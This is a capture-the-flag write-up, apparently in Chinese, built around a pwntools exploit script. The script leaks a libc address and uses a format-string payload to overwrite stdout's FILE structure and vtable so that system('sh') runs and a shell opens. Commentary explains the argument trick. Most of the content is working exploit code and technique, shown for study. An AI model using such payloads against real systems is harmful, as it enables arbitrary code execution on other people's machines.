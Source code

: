 ```python


#leak libc
p.sendlineafter("wanna read:\n", str(elf.symbols['stdout']))
libc_stdout_addr = int(p.recvline().strip(), 16)
vtable_addr = libc_stdout_addr + 148

libc.address = libc_stdout_addr - libc.symbols['_IO_2_1_stdout_']
print "libc base addr:", hex(libc.address)

#input format string
io_putsn_addr = libc_stdout_addr - 64

writes = {
        libc_stdout_addr: u32('sh\x00\xfb'),
        io_putsn_addr : libc.symbols['system'],
        vtable_addr: io_putsn_addr - 7 * 4
        }

payload = fmtstr_payload(offset=7, writes=writes, write_size='short')

print repr(payload)
log.info("payload length: %d" % len(payload))

if '\n' is payload:
    log.error("Error!\\n in payload.")
if len(payload) > 159:
    log.error("Error!paylaod too long!exceed 159")

raw_input("attach")
p.sendline(payload)
p.recvrepeat(timeout=1)
p.interactive()
```



## himyth 的 writeup 的补充部分

### 参数

实际会调用 vtable 中的 `_IO_sputn`，即第 8 项指针，但是发现第一个参数是 stdout 结构体本身，为了让 system 工作起来，需要让第一个参数是 sh 的字符串。

所以这里解法是在把 stdout 头上写成 'sh'，这个结构体原来的头上是一个 `magic | flag`，没有太大的作用，所以可搞。

同样后来看别人的 wp，他让跳转过去的地址变成 system + 1，跳过了第一句 `push ebp`，使得整个栈上移了 4 字节，原先的第二个参数变成了第一个参数，直接就 system('sh') 了，相当的妙，破坏栈并不用考虑，因为 system 压根没想让他返回。

这样都考虑上就可以完整的打了。

### 相关源代码
